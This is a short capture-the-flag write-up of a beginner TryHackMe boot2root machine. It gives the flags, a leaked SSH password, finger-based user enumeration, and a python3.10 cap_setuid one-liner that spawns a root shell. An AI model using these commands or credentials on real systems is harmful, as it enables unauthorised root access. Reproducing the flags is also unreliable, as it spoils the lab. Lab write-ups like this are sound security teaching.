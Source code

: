 **Category:** Boot2Root  
**Difficulty:** Beginner  
**Flags:**  
- _User:_ THM{bishop_to_c4_check}  
- _Root:_ THM{check_check_check_mate}

**Lessons Learned:** Finger services can leak data via .plan files. Linux capabilities (cap_setuid=ep) on python binaries enable immediate root shells without typical exploit chains.

**Steps Taken**

1. Found open ports: 22,79,80.

2. Visited http site – PrecisionChess IoT, no login form.

3. Ran:

```
finger @<target_ip>
```

Listed: magnus, fabiano, hikaru.

4. Queried fabiano:

```
finger fabiano@<target_ip>
```

Found .plan with base64 string.

5. Decoded to reveal:

```
fabiano:o3jVTktarGQI07q
```

6. SSH with these credentials.

7. Retrieved user flag from home directory.

8. Checked capabilities:

```
getcap -r / 2>/dev/null | grep python
```

Found:

```
/usr/bin/python3.10 = cap_setuid+ep
```

9. Priv esc with:

```
python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

10. Retrieved root flag.

---

## Task 16 – Under Construction

